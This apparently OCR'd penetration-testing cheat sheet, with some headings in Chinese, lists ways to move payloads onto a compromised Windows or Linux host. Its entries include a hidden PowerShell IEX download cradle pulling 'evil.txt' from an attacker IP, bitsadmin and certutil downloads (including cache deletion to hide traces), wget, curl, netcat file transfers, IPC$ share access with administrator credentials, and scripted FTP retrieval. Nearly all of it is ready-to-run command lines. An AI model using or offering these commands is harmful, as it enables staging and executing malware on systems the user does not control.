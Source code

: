 		- powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.28.128/imag/evil.txt'))"

- bitsadmin

	- bitsadmin /transfer n http://192.168.28.128/imag/evil.txt d:\test\1.txt

- certutil

	- 下载文件

		- certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt test.php

	- 删除缓存

		- certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt delete

- wget.exe

	- https://eternallybored.org/misc/wget/

		- wget -O "evil.txt" http://192.168.28.128/imag/evil.txt

- curl

	- curl -O http://192.168.28.128/imag/evil.txt

- nc

	- nc -lvp 3333 > d_evil.exe
nc ip 3333 < s_evil.exe
	- cat evil.exe | nc -lvp 3333
nc ip 3333 > evil.exe

- ipc$文件共享

	- 建立远程IPC连接

		- net use \\192.168.28.128\ipc$ /user:administrator "abc123!"

	- 复制远程文件到本地主机

		- copy \\192.168.28.128\c$\2.txt D:\test

- FTP

	- ftp xx.xx.xx.xx
username
password
get file
exit
	- echo open ip >> ftp.txt
echo username >> ftp.txt
echo password >> ftp.txt
echo get xx.rar >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt

- TFTP

	- http://tftpd32.jounin.net/tftpd32_download.html
